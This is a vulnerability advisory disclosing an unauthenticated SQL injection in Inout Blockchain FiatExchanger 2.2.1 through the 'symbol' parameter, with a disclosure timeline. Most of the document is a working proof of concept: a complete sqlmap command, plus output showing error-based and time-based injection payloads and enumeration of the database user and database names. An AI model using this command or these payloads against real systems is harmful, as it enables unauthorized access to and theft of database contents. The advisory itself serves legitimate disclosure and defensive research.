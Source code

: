 # Information
```
Vulnerability Name  : Remote Blind SQL Injections in Inout Blockchain FiatExchanger
Product             : Inout Blockchain FiatExchanger
version             : 2.2.1
Date                : 2022-05-21
Vendor Site         : https://www.inoutscripts.com/products/inout-blockchain-fiatexchanger/
Exploit Detail      : https://github.com/bigb0x/CVEs/Inout-Blockchain-FiatExchanger-221-sqli.md
CVE-Number          : In Progess
Exploit Author      : Mohamed N. Ali @MohamedNab1l
```
<br>

# Description
<br>

SQL injection attack has been discovered in Blockchain FiatExchanger v2.2.1 platform. This will allow remote non-authenticated attackers to inject SQL code. This could result in full information disclosure.
<br>

## Vulnerable Parameter: symbol (GET)

<br>

Vulnerability File: /application/third_party/Chart/TradingView/chart_content/master.php line 130

<br>

### Sqlmap command:
`
python sqlmap.py -u "http://http://vulnerable-host.com/application/third_party/Chart/TradingView/chart_content/master.php/history?from=1652675947&resolution=5&symbol=BTC-BCH" -p symbol --dbms=MySQL --banner --random-agent --current-db --dbs --current-user

`
<br>

### output:
`
[20:05:54] [INFO] fetched random HTTP User-Agent header value 'Opera/9.20(Windows NT 5.1; U; en)' from file '/root/sqlmap/data/txt/user-agents.txt'
[20:05:55] [INFO] testing connection to the target URL
[20:05:55] [WARNING] there is a DBMS error found in the HTTP response body which could interfere with the results of the tests
sqlmap resumed the following injection point(s) from stored session:

Parameter: symbol (GET)
    Type: error-based
    Title: MySQL >= 5.0 AND error-based - WHERE, HAVING, ORDER BY or GROUP BY clause (FLOOR)
    Payload: from=1652675947&resolution=5&symbol=BTC-BCH' AND (SELECT 1746 FROM(SELECT COUNT(*),CONCAT(0x71707a6b71,(SELECT (ELT(1746=1746,1))),0x7171627671,FLOOR(RAND(0)*2))x FROM INFORMATION_SCHEMA.PLUGINS GROUP BY x)a) AND 'hIKU'='hIKU

    Type: time-based blind
    Title: MySQL >= 5.0.12 AND time-based blind (query SLEEP)
    Payload: from=1652675947&resolution=5&symbol=BTC-BCH' AND (SELECT 4566 FROM (SELECT(SLEEP(5)))kVcR) AND 'JGrB'='JGrB

[20:05:55] [INFO] testing MySQL
[20:05:56] [INFO] confirming MySQL
[20:05:57] [INFO] the back-end DBMS is MySQL
[20:05:57] [INFO] fetching banner
[20:05:57] [INFO] resumed: '5.6.50'
web application technology: PHP 7.0.33
back-end DBMS: MySQL >= 5.0.0
banner: '5.6.50'
[20:05:57] [INFO] fetching current user
[20:05:57] [INFO] retrieved: 'root@localhost'
current user: 'root@localhost'
[20:05:57] [INFO] fetching current database
[20:05:57] [INFO] resumed: 'inout_blockchain_fiatexchanger_db'
current database: 'inout_blockchain_fiatexchanger_db'
[20:05:57] [INFO] fetching database names
[20:05:57] [INFO] resumed: 'information_schema'
[20:05:57] [INFO] resumed: 'inout_blockchain_fiatexchanger_addons_db'
[20:05:57] [INFO] resumed: 'inout_blockchain_fiatexchanger_cryptotrading_db'
[20:05:57] [INFO] resumed: 'inout_blockchain_fiatexchanger_db'
[20:05:57] [INFO] resumed: 'mysql'
[20:05:57] [INFO] resumed: 'performance_schema'
available databases [6]:
[*] information_schema
[*] inout_blockchain_fiatexchanger_addons_db
[*] inout_blockchain_fiatexchanger_cryptotrading_db
[*] inout_blockchain_fiatexchanger_db
[*] mysql
[*] performance_schema

`
<br>
<img src="./resources/Blockchain-FiatExchanger-221-sqlmap1.png">
<br>
<img src="./resources/Blockchain-FiatExchanger-221-sqlmap2.png">
<br>


## Timeline
```
2022-05-03: Discovered the bug
2022-05-03: Reported to vendor
2022-05-21: Advisory published
```

<br>

## Discovered by
```
Mohamed N. Ali
@MohamedNab1l
ali.mohamed@gmail.com

```
